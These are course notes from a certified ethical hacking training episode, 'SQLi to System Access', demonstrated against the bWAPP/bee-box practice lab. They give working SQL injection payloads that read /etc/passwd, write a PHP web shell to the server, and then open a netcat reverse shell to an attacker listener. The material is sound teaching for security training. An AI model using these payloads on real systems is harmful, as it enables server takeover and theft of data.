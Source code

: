 - Filename: eccouncil-ceh31250-v12-15-4-1-sqli-to-system-access.md
- Show Name: CEHv12 (312-50)
- Topic Name: Web Application Hacking: SQL Injection
- Episode Name: SQLi to System Access
================================================================================


SQLi to System Access
--------------------------------------------------------------------------------

Objectives:
--------------------------------------------------------------------------------
- Utilize SQL Injection to access the local file system of a remote system
- Leverage SQL Injection to create an interactive connection with a remote system
--------------------------------------------------------------------------------


+ **We've seen a lot of what we can do with SQL Injection. Are there any other
  kinds of things can we accomplish with SQL injection?**
  - Lots of dangerous things
    + Local file-system manipulation
      - READ
      - WRITE
      - CODE/COMMAND EXECUTION

+ That does sound dangerous! Can you show use a quick example of reading from the
  target's local file system?
  - READ from file
    + `union all select 1,load_file("/etc/passwd"),3,4,5,6,7 -- -`
      - View source for better formatting of output
+ Can we read ANY file we want?
  - Only the files that the SQL user has access to

+ You also said we can write, to the local file system. What does that look like?
  - WRITE to file
    + `union all select 1,"Test",3,4,5,6,7 into OUTFILE '/var/www/test.txt' -- -`
      - You may get permission denied
        + Find writeable dir
          - Check links, source, and `robots.txt`
            + Trial and error through the listed directories
              - Found writeable dir: **/documents**
                + CODE/COM EXEC may now be possible :)

+ We can now both READ and WRITE to the Target's local file-system, but how do
  we leverage this for CODE/COMMAND EXECUTION?
  - CODE EXEC
    + ```
      union all select 1,"<?php echo shell_exec($_GET['cmd'];?>)",3,4,5,6,7
      into OUTFILE '/var/www/bWAPP/documents/x.php'
      ```
      - Browse to http://bee-box/documents/x.php
        + Success!

+ So we were able to add a new page to the website, but what do we do now?
  - We listen
    + Start a listener on port 4444
      - Now browse to your backdoor and execute a command
+ `http://bee-box/bWAPP/documents/x.php?cmd=nc -nv 10.0.0.169 4444 -e /bin/bash`
